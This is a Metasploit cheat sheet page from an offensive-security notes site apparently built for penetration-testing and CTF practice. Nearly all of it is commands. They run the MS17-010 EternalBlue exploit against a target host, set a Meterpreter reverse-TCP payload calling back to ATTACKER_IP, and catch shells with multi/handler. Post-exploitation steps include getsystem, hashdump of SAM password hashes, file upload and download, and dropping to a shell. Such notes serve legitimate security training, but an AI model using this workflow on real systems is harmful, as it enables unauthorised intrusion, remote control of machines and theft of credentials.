

repository: georgenadejde/CheatShip · page: exploitation/metasploit/index.html · generator: mkdocs

# Metasploit

msfconsole workflow, multi/handler, meterpreter post-exploitation.

---

## msfconsole Basics

```bash
# search for a module
search eternalblue
search type:exploit platform:windows smb

# use a module
use exploit/windows/smb/ms17_010_eternalblue

# show options / payloads
show options
show payloads

# set options
set RHOSTS 10.10.10.10
set LHOST 10.10.14.1
set LPORT 4444
set PAYLOAD windows/x64/meterpreter/reverse_tcp

# run
run          # or: exploit
exploit -j   # run as background job

# manage sessions
sessions        # list all
sessions 1      # foreground session 1
sessions -k 1   # kill session
```

---

## multi/handler (catch shells)

```bash
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST ATTACKER_IP
set LPORT 4444
exploit -j
```

---

## Meterpreter Commands

```bash
# system info
sysinfo
getuid
getpid

# file operations
upload /local/file C:\remote\path
download C:\remote\file /local/path

# privilege escalation
getsystem
hashdump   # dump SAM hashes (needs SYSTEM)

# post modules
run post/multi/recon/local_exploit_suggester
run post/multi/manage/shell_to_meterpreter

# drop to shell
shell

# background current session
background
```
